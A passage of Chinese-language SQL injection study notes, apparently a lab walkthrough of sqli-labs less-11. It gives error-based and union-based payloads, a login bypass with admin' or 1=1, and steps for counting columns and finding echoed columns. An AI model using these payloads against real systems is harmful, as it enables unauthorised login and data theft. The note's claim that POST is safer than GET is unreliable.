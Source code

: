 ```sql
select * from users order by id and(updatexml(1,concat(0x7e,(select count(*) from information_schema.schemata)),0));
```

- #### union 联合查询


```sql
?id=111’ union select 1,2,(group_concat(table_name) from information_schema.tables where table_schema=‘数据库名’) --+
```

### 3.union注入(POST提交)

前面讲的是GET提交。

`get提交一般是把参数放在url里面进行提交，而post提交是把参数单独列出来，放在数据包里进行提交。`

POST提交和GET提交的不同：

1. get提交可以被缓存，而post提交不会被缓存
2. get提交参数会被保存在浏览器的历史记录里，而post提交不会
3. get提交可以被收藏为书签，而post提交不可以
4. get提交有长度限制，最长为2048个字符；而post提交没有长度要求，不是只允许使用ASCII字符，还可以使用二进制数据
5. post提交比get提交更安全

#### 靶场练习（less-11）

**1.先抓一次包，分析一下参数。然后使用万能秘钥判断注入点**

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807123201220.png" alt="image-20220807123201220" style="zoom:50%;" />

**万能秘钥**：用户名输入`admin' or 1=1 #`，密码随便输入即可登录成功（username存在注入点，可以使用post提交注入，并用`or`指令使条件永真来绕过密码验证）。

由下面的截图可以看出，在用户名处存在注入点。

```
uname=admin' or 1=1 -- &passwd=1ed&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807013344955.png" alt="image-20220807013344955" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807013402844.png" alt="image-20220807013402844" style="zoom:50%;" />

**2.判断列数**

通过二分法判断出列数为2

```
uname=admin' group by 2 -- &passwd=1ed&Submit=Submit
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807013706450.png" alt="image-20220807013706450" style="zoom:50%;" /><img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220807013721741.png" alt="image-20220807013721741" style="zoom:50%;" />

**3.开始union注入，检测回显位**

如下图，检测出了两个回显位。可以进行查库查表查列查内容等下一步注入操作。

```
uname=' union select 1,2  -- &passwd=1ed&Submit=Submit
```
